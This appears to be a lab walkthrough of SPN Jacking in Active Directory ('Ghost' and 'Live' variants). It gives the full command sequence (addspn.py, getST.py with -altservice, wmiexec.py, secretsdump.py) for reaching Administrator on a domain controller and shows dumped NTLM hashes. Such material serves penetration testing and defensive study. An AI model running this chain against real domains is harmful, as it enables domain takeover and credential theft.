






# SPN Jacking

SPN Jacking is an attack that abuses how Kerberos resolves services in Active Directory.

Kerberos normally works like this:

* The client asks the KDC for a ticket for `MSSQLSvc/sqlserver.corp.local:1433`
* The KDC looks in LDAP for which account has that SPN registered
* It encrypts the TGS with the NTLM hash of that account
* The client presents that ticket to the server, which decrypts it with its own key
* Connection established

`The critical point`: the KDC never verifies that the account actually runs that service. It only looks for whoever holds the SPN and encrypts with that account's key

### SPN Jacking

Let's get straight to the point. The attacker has `WriteSPN` over the account of a victim service, for example `svc_sql`. This account has the following registered:

```cpp
servicePrincipalName: MSSQLSvc/sqlserver.corp.local:1433
```

The attacker removes that SPN from `svc_sql` and registers it on their own account. Now the directory looks like this:

```cpp
svc_sql           → servicePrincipalName: (empty)
attacker_account  → servicePrincipalName: MSSQLSvc/sqlserver.corp.local:1433
```

When any client on the network requests a TGS for `MSSQLSvc/sqlserver.corp.local`, the KDC finds the SPN on `attacker_account` and encrypts the ticket with the attacker's NTLM hash. The attacker can then decrypt it

### Ghost SPN-Jacking

Let's imagine the following: we have 1 compromised account called `secret.d`, 1 machine called `MSSQL_SVC$`, and `DC01$`



In this example we have something like this, obviously not very realistic, but let's use it as an illustration; just imagine the following

The account `BURNED.CORP/secret.d` has `WriteSPN` rights over `DC01$` and has `Constrained Delegation` pointing to `MSSQL_SVC$`:

```cpp
secret.d:
msDS-AllowedToDelegateTo:
    MSSQLSvc/MSSQL_SVC.burned.corp
    
MSSQL_SVC$:
servicePrincipalName: MSSQLSvc/MSSQL_SVC.burned.corp
```

Now let's imagine that `MSSQL_SVC$` no longer exists, due to changes made elsewhere in the domain. This is where `Ghost SPN-Jacking` comes in, and our final flow ends up looking like this:



Let's run `findDelegation.py`:

```cpp
svim @Burned in krbrelayx on  master ? ❯ findDelegation.py 'BURNED.CORP'/'secret.d':'snake123'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

AccountName  AccountType  DelegationType                      DelegationRightsTo              SPN Exists
-----------  -----------  ----------------------------------  ------------------------------  ----------
DC01$        Computer     Unconstrained                       N/A                             Yes
RRNLTXBZ$    Computer     Resource-Based Constrained          DAN-MACHINE$                    No
secret.d     Person       Constrained w/ Protocol Transition  MSSQLSvc/MSSQL_SVC.BURNED.CORP  No


󰣇 svim @Burned in krbrelayx on  master ? ❯
```

And we see that `secret.d` has `CD` with `Protocol Transition` (I cover `T2A4D Protocol Transition` here: [S4U2Self & S4U2Proxy](../S4U2Self-S4U2Proxy/S4U2Self-S4U2Proxy.md)) and the `SPN` does not exist on any object, this is the perfect scenario for this attack

If we keep enumerating with BloodHound or `dacledit.py`:





We see that we have everything we need to continue the attack: `SECRET.D` is a member of `IT`, which has a `WritePropert (0x20)` ACE over `DC01$`. Let's check which SPN our `Constrained Delegation` points to

```cpp
svim @Burned in Desktop/spn/dump ❯ bloodyAD -d 'BURNED.CORP' -u 'secret.d' -p 'snake123' -i '192.168.20.52' get object 'secret.d'

msDS-AllowedToDelegateTo: MSSQLSvc/MSSQL_SVC.BURNED.CORP
```

Now that we've confirmed this, let's go ahead and add that SPN onto `DC01$`. We could do this with `bloodyAD` or plenty of other tools that let us do the same thing, but I'll use `addspn` for variety:

```cpp
svim @Burned in krbrelayx on  master ? ❯ python3 addspn.py -u 'BURNED\secret.d' -p 'snake123' -s 'MSSQLSvc/MSSQL_SVC.BURNED.CORP' -t 'DC01$' 192.168.20.52
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
󰣇 svim @Burned in krbrelayx on  master ? ❯
```

Let's verify:

```cpp
󰣇 svim @Burned in krbrelayx on  master ? ❯ python3 addspn.py -u 'BURNED\secret.d' -p 'snake123' -q -t 'DC01$' 192.168.20.52
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=DC01,OU=Domain Controllers,DC=burned,DC=corp - STATUS: Read - READ TIME: 2026-06-19T14:41:37.459995
    dNSHostName: DC01.burned.corp
    msDS-AdditionalDnsHostName: WIN-76IDRQGHKPR$
                                DC01$
    sAMAccountName: DC01$
    servicePrincipalName: MSSQLSvc/MSSQL_SVC.BURNED.CORP
```

We'll use `getST.py` to perform an `S4U2Self & S4U2Proxy` impersonating Administrator over `DC01$`, and we'll use `-altservice` to change the SPN of the `TGS`. We can do this because Kerberos does not encrypt this part of the TGS with its `AES Key`, so we can modify it directly:

```cpp
svim @Burned in krbrelayx on  master ? ❯ getST.py 'BURNED.CORP'/'secret.d':'snake123' -spn 'MSSQLSvc/MSSQL_SVC.BURNED.CORP' -impersonate 'Administrator' -altservice 'HOST/DC01.burned.corp'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from MSSQLSvc/MSSQL_SVC.BURNED.CORP@BURNED.CORP to HOST/DC01.burned.corp@BURNED.CORP
[*] Saving ticket in Administrator@HOST_DC01.burned.corp@BURNED.CORP.ccache

svim @Burned in krbrelayx on  master ? ❯ export KRB5CCNAME=Administrator@HOST_DC01.burned.corp@BURNED.CORP.ccache

svim @Burned in krbrelayx on  master ? ❯ klist
Ticket cache: FILE:Administrator@HOST_DC01.burned.corp@BURNED.CORP.ccache
Default principal: Administrator@BURNED.CORP

Valid starting       Expires              Service principal
06/19/2026 16:30:33  06/20/2026 02:30:33  HOST/DC01.burned.corp@BURNED.CORP
	renew until 06/20/2026 16:30:33
󰣇 svim @Burned in krbrelayx on  master ? ❯
```

If we use the `TGS` via wmiexec.py we are going to gain Administrator in the `DC01$`:

```cpp
󰣇 svim @Burned in krbrelayx on  master ? ❯ wmiexec.py DC01 -k -no-pass
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```

We can use it with `secretsdump.py`:

```cpp
svim @Burned in krbrelayx on  master ✘? ❯ secretsdump.py -k -no-pass DC01.BURNED.CORP -just-dc-ntlm
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:87bc7f449b831e6e65b64ad7f348e78f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a2fdfe1f85d800bf4543739b082eec37:::
burned.corp\svc_mssql:1109:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
delegate.com\secret.d:1148:aad3b435b51404eeaad3b435b51404ee:392269558884d9cdbe282d1f962e6f37:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:d9c4b43199154e2ac73b83e5dfdad77e:::
DAN-MACHINE$:1114:aad3b435b51404eeaad3b435b51404ee:9c24beb1205437b6ec91dfafe74a737d:::
RRNLTXBZ$:1140:aad3b435b51404eeaad3b435b51404ee:54482c17cd47d96a41ec5b624ac92d1d:::
[*] Cleaning up...
󰣇 svim @Burned in krbrelayx on  master ✘? ❯
```

### Live SPN-Jacking

For this scenario, let's imagine the following:



`secret.d` has `Constrained Delegation` toward `MSSQL_SVC$` and `WriteSPN` over `DC01$ & IT.COMPUTER$`:

```cpp
svim @Burned in krbrelayx on  master ✘? ❯ findDelegation.py 'BURNED.CORP'/'secret.d':'snake123'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

AccountName  AccountType  DelegationType                      DelegationRightsTo              SPN Exists
-----------  -----------  ----------------------------------  ------------------------------  ----------
DC01$        Computer     Unconstrained                       N/A                             Yes
RRNLTXBZ$    Computer     Resource-Based Constrained          DAN-MACHINE$                    No
secret.d     Person       Constrained w/ Protocol Transition  MSSQLSvc/MSSQL_SVC.BURNED.CORP  Yes
```

If we run `findDelegation.py`, we see that this time the SPN is actually assigned. But, as I think we can all guess where this attack is going: with `WriteSPN` we can strip the SPN from `IT.COMPUTER$` and assign it to `DC01$`.



Let's try it:

```cpp
svim @Burned in krbrelayx on  master ❯ python3 addspn.py -u 'BURNED\secret.d' -p 'snake123' -q --target 'it.computer$' --target-type samname 192.168.20.52
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
DN: CN=IT-COMPUTER$,CN=Computers,DC=burned,DC=corp - STATUS: Read - READ TIME: 2026-06-19T22:47:25.866052
    sAMAccountName: it.computer$
    servicePrincipalName: MSSQLSvc/MSSQL_SVC.BURNED.CORP
    
svim @Burned in krbrelayx on  master ❯ python3 addspn.py -u 'BURNED\secret.d' -p 'snake123' -r -s 'MSSQLSvc/MSSQL_SVC.BURNED.CORP' --target 'it.computer$' --target-type samname 192.168.20.52
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully

svim @Burned in krbrelayx on  master ❯ python3 addspn.py -u 'BURNED\secret.d' -p 'snake123' -s 'MSSQLSvc/MSSQL_SVC.BURNED.CORP' --target 'DC01$' 192.168.20.52
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found modification target
[+] SPN Modified successfully
svim @Burned in krbrelayx on  master ❯
```

We perform `S4U2Self / S4U2Proxy`:

```cpp
svim @Burned in krbrelayx on  master ❯ getST.py 'BURNED.CORP'/'secret.d':'snake123' -spn 'MSSQLSvc/MSSQL_SVC.BURNED.CORP' -impersonate 'Administrator' -altservice 'HOST/DC01'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from MSSQLSvc/MSSQL_SVC.BURNED.CORP@BURNED.CORP to HOST/DC01@BURNED.CORP
[*] Saving ticket in Administrator@HOST_DC01@BURNED.CORP.ccache
󰣇 svim @Burned in krbrelayx on  master ? ❯ export KRB5CCNAME=Administrator@HOST_DC01@BURNED.CORP.ccache
󰣇 svim @Burned in krbrelayx on  master ? ❯

󰣇 svim @Burned in krbrelayx on  master ? ❯ secretsdump.py -k -no-pass DC01 -just-dc-ntlm
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:87bc7f449b831e6e65b64ad7f348e78f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a2fdfe1f85d800bf4543739b082eec37:::
burned.corp\svc_mssql:1109:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
delegate.com\secret.d:1148:aad3b435b51404eeaad3b435b51404ee:392269558884d9cdbe282d1f962e6f37:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:d9c4b43199154e2ac73b83e5dfdad77e:::
DAN-MACHINE$:1114:aad3b435b51404eeaad3b435b51404ee:9c24beb1205437b6ec91dfafe74a737d:::
RRNLTXBZ$:1140:aad3b435b51404eeaad3b435b51404ee:54482c17cd47d96a41ec5b624ac92d1d:::
it.computer$:1150:aad3b435b51404eeaad3b435b51404ee:92b815f2e9f7091d966ab5f2f4ce4097:::
[*] Cleaning up...
󰣇 svim @Burned in krbrelayx on  master ? ❯
```

* This is essentially SPN Jacking. It's worth noting that these aren't the only scenarios that exist, I've run into plenty of different scenarios with different permissions/ACEs. So what matters most here is your understanding as an attacker. Thinking about how you could use what you have on hand to carry out this type of attack and achieve horizontal or vertical privilege escalation
